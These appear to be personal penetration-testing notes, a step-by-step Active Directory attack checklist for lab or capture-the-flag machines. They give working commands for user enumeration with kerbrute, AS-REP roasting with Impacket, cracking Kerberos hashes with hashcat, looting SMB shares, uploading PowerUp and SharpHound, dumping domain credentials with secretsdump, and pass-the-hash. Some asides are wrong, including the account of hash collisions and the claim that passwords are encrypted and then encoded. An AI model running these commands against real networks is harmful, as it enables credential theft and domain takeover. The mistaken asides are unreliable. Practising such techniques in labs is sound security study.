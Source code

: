 0. enum4linux
... generally reveals shares, etc.

1. to get AD domain name, scan with nmap:

	sudo nmap -sC -sT -sV 10.10.31.222 -oN ldap 

use '''-sC''' to deploy standard scripts which use ldap to enumerate port 389, as they will reveal the full domain name

then add the domain name to /etc/hosts 
	
	>> [ip] 	[host name] 	[domain]
	
where host name looks like "XXX.htb" and domain name often looks like "XXX.local"


2. use the domain name to enumerate users:

	kerbrute enumusers --dc [IP ADDRESS] -d [DOMAIN NAME] userlist.txt

note that the domain name is usually a url with a TLD like .com, .org, etc. In the case of AD,
its often configured using a .local TLD as a matter of habit 

3. attempt to ASREPRoast user accounts which are misconfigured with "Does not requre Pre-Authentication" using the GetNPUsers.py (NP=no pre-auth) script from Impacket. Specifically we're trying to request kerberos tickets with hashes from the kerberos TGS that we can later crack for passwords. Kerberos will sometimes issue tickets to accounts that do not require pre-auth.

	python3 /opt/impacket/examples/GetNPUsers.py [DOMAIN NAME]/[USERNAME] -no-pass -usersfile ./npusers

where DOMAIN NAME would be something like XXX.local and USERNAME is an enumerated user from step 2

where the ./npusers file is a list of usernames gained from step #2

this will give you a kerberos hash that you can crack for a password

4. crack the hash(s) that you get back from Kerberos TGS using hashcat, generally kb5 type
	... if you're unsure about the type of hash, check on hashcat.net examples page	

	hashcat -a 0 -m 18200 ./svc-admin_hash ./passwordlist.txt --force


5. after cracking the hash, you now have a user password. Attempt to map out  SAMBA shares using these
	credentials
	... NOTE: there may have been no shares when you anonymously list with smbclient
		don't let that discourage you. with credentials, new shares are likely visible
smbclient -L 10.10.64.123 -U svc-admin 

	OR, check for wsman on port 5985 (login with evil-winrm)
	OR, check for rdesktop
	basically just check for anywhere to plug the credentials into
	
	it may be a good idea to do a full port scan, ports 1-65535, to find somewhere to log into

6.a. (IF SMB): then connect to a share using those credentials

smbclient //10.10.64.123/backup -U svc-admin

and steal any info you can

6.b. (IF WINDOWS): Upload a script like PowerUp.ps1 (see Sauna notes for how to setup SimpleHTTPServer and Invoke-WebRequest to get PowerUp on windows box)

	You might get the autologon.exe credentials, which you can use to dump secrets using the command in step #7 (can also pass a one-liner with password)

6.c. (LAST RESORT): As a last resort and/or to pivot throughout AD, you might want to upload a SharpHound.exe and gather some .json files with it, exfiltrate
	back with the evil-winrm download function 

7. when you can find a user account, use Impacket secretsdump.py to dump all password hashes that the user has access to -- the purpose of this is privilege escalation

	python3 /opt/impacket/examples/secretsdump.py -dc-ip 10.10.64.123 backup@spookysec.local

this yields many hashes

hashes yielded from DRSUAPI (the NTDS.DIT dump) are NTLM hashes of the form
	
	[userhash]:[passhash]

so the part after the colon is the password hash

NOW, to escalate privileges, remember:

Why are we grabbing password HASHES? (see: hashing vs encryption)

It's because applications only check password hashes. they never know or store
the cleartext password. So, you can PASS THE HASH -- meaning, you can use
these account password hashes without every knowing the real password -- and
the application you're attacking will never know the difference. You can
authenticate using the hash alone

... aside: hash collision attacks allow you to authenticate by 
	guessing a password that creates the same hash using a different 
	password, so you can get in without knowing the real password in that
	case as well

... aside: note that passwords are usually encrypted, then encoded in that order 

Pass the hash with "evil-winrm"

	

